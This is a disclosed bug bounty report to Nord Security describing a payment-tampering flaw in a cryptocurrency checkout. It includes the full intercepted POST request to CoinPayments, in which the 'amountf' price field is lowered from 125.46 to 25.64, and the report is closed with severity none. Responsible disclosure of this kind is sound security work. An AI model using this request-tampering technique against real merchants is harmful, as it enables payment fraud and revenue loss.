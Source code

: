 # Reduced Payment amount while paying on Crypto Currencies

## Report Details
- **Report ID**: 803876
- **URL**: https://hackerone.com/reports/803876
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-02-24T18:56:32.706Z
- **Disclosed**: 2020-03-03T16:37:43.174Z

## Reporter
- **Username**: archerl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
## Summary:
While the payment is made via Crypto Currencies on the site "https://join.nordvpn.com/order/", the amount can be reduced to 25.64 instead of the original amount, this can cause loss of revenue to the company.  
Even the BTC value reflects the reduced converted values, see the screenshot.
## Steps To Reproduce:
1. GO to the website https://join.nordvpn.com/order/, check the crypto payment and select the crypto payment.
2. Intercept the request

----start request----
POST /index.php HTTP/1.1
Host: www.coinpayments.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://join.nordvpn.com/order/
Content-Type: application/x-www-form-urlencoded
Content-Length: 355
DNT: 1
Connection: close
Cookie: CPTC=f9cc9e3fa4d739bc7fc14299ce93ad6d; PHPSESSID=rctrgm3vd8cil352n2s4l0p8g4
Upgrade-Insecure-Requests: 1

cmd=_pay&reset=1&email=asd%40gmail.com&merchant=e64a9629f9a68cdeab5d0edd21b068d3&currency=USD&amountf=25.64&item_name=VPN+order&invoice=56612347&success_url=https%3A%2F%2Fjoin.nordvpn.com%2Fpayments%2Fcallback%2F6f921cd6b73c9aa7e999d0da97ad1b04&cancel_url=https%3A%2F%2Fjoin.nordvpn.com%2Forder%2Ferror%2F%3Ferror_alert%3Dpayment%26eu%3D1&want_shipping=0

-------------end request-------------------

The value of the *amountf* is changed to 25.64 instead of the original value of 125.46.

The screenshots attached can show that the walet reflects the same, as in converted with respect to $25.64 and not 125.46.

## Supporting Material/References:

## Impact

Financial loss to the company.

## Attachments
No attachments
